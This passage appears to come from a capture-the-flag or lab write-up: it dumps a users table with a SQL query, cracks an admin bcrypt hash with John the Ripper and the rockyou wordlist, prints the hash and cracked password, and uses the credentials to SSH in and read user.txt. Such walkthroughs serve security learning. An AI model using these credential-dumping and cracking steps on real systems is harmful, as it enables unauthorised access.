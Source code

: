 ![Database tables](images/image7.png)


Upon executing the sql query "select * from users", which will access all entries in the "users" table, this was the output:


![Usercredentials](images/image8.png)


The hashes of two users "admin" and "kanderson" were exposed. Saving the "admin" hash to a file named "hash.txt", the tool, John the Ripper, was then used to crack the hash:

```bash
kali@kali:~/Desktop$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:49 DONE (2023-12-19 19:26) 0.02013g/s 56.54p/s 56.54c/s 56.54C/s dougie..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Hash: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm Cracked: manchesterunited. 


Hence, the password "manchesterunited" was revealled. The credentials "josh:manchesterunited" can then be used to successfully ssh to the server as the user "josh". Once connected to the server using SSH, the user.txt file can then be read.
